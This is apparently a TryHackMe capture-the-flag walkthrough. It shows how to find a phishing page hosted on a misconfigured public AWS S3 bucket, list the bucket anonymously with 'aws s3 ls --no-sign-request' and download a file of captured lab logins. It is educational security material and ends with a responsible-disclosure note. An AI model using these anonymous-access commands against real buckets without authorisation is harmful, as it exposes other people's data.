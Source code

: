 ```yaml
---
title: "A Bucket of Phish CTF TryHackMe Walkthrough"
slug: a-bucket-of-phish
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


![](https://github.com/j4ke-exe/j4ke.io/assets/media/a-bucket-of-phish-banner.jpeg){: .center-image }

In this TryHackMe CTF challenge, A Bucket of Phish, we’ll go step-by-step through finding and exploiting a misconfigured AWS S3 bucket. The bucket hosts a static version of a CMail login page, and with a bit of investigation, we’re able to dig deeper and ultimately pull a list of compromised users.

<br>
## Step 1: Initial Recon

Target domain:

```bash
http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

![](https://github.com/j4ke-exe/j4ke.io/assets/media/a-bucket-of-phish-cmail.jpeg){: .center-image }

We inspect the website content to understand what kind of application is hosted.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cmail Webmail Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f9;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .login-container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
            width: 100%;
            max-width: 400px;
        }
        .login-container h1 {
            text-align: center;
            color: #333;
            margin-bottom: 20px;
        }
        .login-container input[type="text"],
        .login-container input[type="password"] {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
            font-size: 14px;
        }
        .login-container button {
            width: 100%;
            padding: 12px;
            background-color: #4CAF50;
            color: white;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
        }
        .login-container button:hover {
            background-color: #45a049;
        }
        .login-container .footer {
            text-align: center;
            margin-top: 20px;
            font-size: 14px;
            color: #666;
        }
    </style>
</head>
<body>

<div class="login-container">
    <h1>Cmail Login</h1>
    <form action="/login" method="POST">
        <label for="email">Email Address</label>
        <input type="text" id="email" name="email" placeholder="Enter your email" required>

        <label for="password">Password</label>
        <input type="password" id="password" name="password" placeholder="Enter your password" required>

        <button type="submit">Login</button>
    </form>

    <div class="footer">
        <p>Forgot your password? <a href="/reset-password">Reset it here</a></p>
    </div>
</div>

</body>
</html>
```

### Observations:
- The page displays a styled HTML login form for **CMail Webmail**.
- The form action points to `/login`, and there's a password reset link to `/reset-password`.
- However, because this is hosted on **Amazon S3 static website hosting**, it doesn't support dynamic back-end functionality.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com/reset-password
```

```html
<html>
<head><title>404 Not Found</title></head>
<body>
<h1>404 Not Found</h1>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: reset-password</li>
<li>RequestId: EN4SKKZ1VKK91P9T</li>
<li>HostId: eGjEBRKU/BUWSzBefb8eYERlkKeG4qeKb0TT3IFWzraJibJsV6oqqt/j5nuCdojgAcTw1TqwGHY=</li>
</ul>
<h3>An Error Occurred While Attempting to Retrieve a Custom Error Document</h3>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: error.html</li>
</ul>
<hr/>
</body>
</html>
```

<br>

## Step 2: Validate Hosting Type

We verify the type of hosting and server technology by viewing headers:

```bash
curl -I http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```bash
HTTP/1.1 200 OK
x-amz-id-2: y6mmGEQad0NaD02ile8U97LzaR89gBpdoWeLojjLKGEKKauo2+qSGRSewEWQX5JO4c0BZBeZ3/c=
x-amz-request-id: HGSZRZX8MAQCVP1N
Date: Fri, 23 May 2025 20:53:58 GMT
Last-Modified: Mon, 17 Mar 2025 06:25:33 GMT
ETag: "3b392b5fc343b899cc3d67b6ecb2d025"
Content-Type: text/html
Content-Length: 2300
Server: AmazonS3
```

### Response:
```
Server: AmazonS3
```

This confirms the website is served directly from an S3 bucket.

<br>

## Step 3: Enumerate the S3 Bucket

Amazon S3 static websites often use the format:
```
http://<bucket-name>.s3-website-<region>.amazonaws.com
```

From this, we can identify the bucket name:
```
darkinjector-phish
```

We attempt to list contents without authentication (public enumeration).

```bash
aws s3 ls s3://darkinjector-phish --recursive --no-sign-request
```

### Output:
```
2025-05-23 19:58:04     4912 index.html
2025-05-23 20:01:17     1456 captured-logins-093582390
```

<br>

## Step 4: Retrieve the Flag

Download the file titled `captured-logins-093582390`.

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
```

```bash
cat captured-logins-093582390
```

```bash
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,THM{REDACTED}
```

<br>

### Notes & Lessons Learned

- Static S3 websites **do not support server-side logic**. Attempting `/login` or `/reset-password` will fail or return 404 errors.
- If the bucket is public, you can **list and download files without authentication** using `--no-sign-request`.
- Always validate headers and structure to determine if the target is an S3 static site.
- This is a **common misconfiguration vulnerability** in cloud storage security.

<br>

### Installation of `awscli`:

**macOS (Homebrew):**
```bash
brew install awscli
```

**Kali Linux / Debian-based:**
```bash
sudo apt update && sudo apt install awscli
```

**Windows PowerShell:**
```powershell
msiexec.exe /i https://awscli.amazonaws.com/AWSCLIV2.msi
```

<br>

## Responsible Disclosure

If you encounter this in the real world outside of a CTF or test environment, **always disclose responsibly** through a coordinated vulnerability disclosure program or the organization’s security contact.
